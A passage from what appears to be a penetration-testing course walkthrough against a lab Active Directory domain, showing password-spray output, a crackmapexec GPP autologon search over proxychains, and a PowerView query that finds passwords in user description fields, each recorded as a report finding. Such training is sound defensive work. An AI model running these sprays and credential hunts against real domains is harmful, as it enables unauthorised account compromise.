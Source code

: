 [*] Current domain is compatible with Fine-Grained Password Policy.
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2913 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): y
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2913 users. Current time is 11:47 AM
[*] SUCCESS! User:kdenunez Password:Welcome1
[*] SUCCESS! User:mmertle Password:Welcome1
[*] Password spraying is complete
</code></pre>
<p>We find a valid password for two more users, but neither has interesting access. It's still worth noting down a finding for <code>Weak Active Directory Passwords</code> allowed and moving on.</p>
<hr/>
<h2>Misc Techniques</h2>
<p>Let's try a few more things to cover all our bases. We can search the SYSVOL share for <code>Registry.xml</code> files that may contain passwords for users configured with autologon via Group Policy.</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M gpp_autologin

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:135-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86! 
GPP_AUTO... 172.16.8.3      445    DC01             [+] Found SYSVOL share
GPP_AUTO... 172.16.8.3      445    DC01             [*] Searching for Registry.xml
</code></pre>
<p>This doesn't turn up anything useful. Moving on, we can search for passwords in user <code>Description</code> fields in AD, which is not overly common, but we still see it from time to time (I have even seen Domain and Enterprise Admin account passwords here!).</p>
<pre><code class="language-powershell-session">PS C:\DotNetNuke\Portals\0&gt; Get-DomainUser * |select samaccountname,description | ?{$_.Description -ne $null}

samaccountname description
-------------- -----------
Administrator  Built-in account for administering the computer/domain
frontdesk      ILFreightLobby!
Guest          Built-in account for guest access to the computer/d...
krbtgt         Key Distribution Center Service Account
</code></pre>
<p>We find one for the account <code>frontdesk,</code> but this one isn't useful either. It's worth noting that there are many multiple ways to obtain a user account password in this domain, and there is the one host with RDP privileges granted to all Domain Users. Though these accounts do not have any special rights, it would be a client fixing these issues because an attacker often only needs one password to be successful in AD. Here we can note down a finding for <code>Passwords in AD User Description Field</code> and continue onwards.</p>
<hr/>
<h2>Next Steps</h2>
<p>At this point, we have dug into the domain pretty heavily and have found several sets of credentials but hit a bit of a brick wall. Going back to the basics, we can run a scan to see if any hosts have WinRM enabled and attempt to connect with each set of credentials.</p>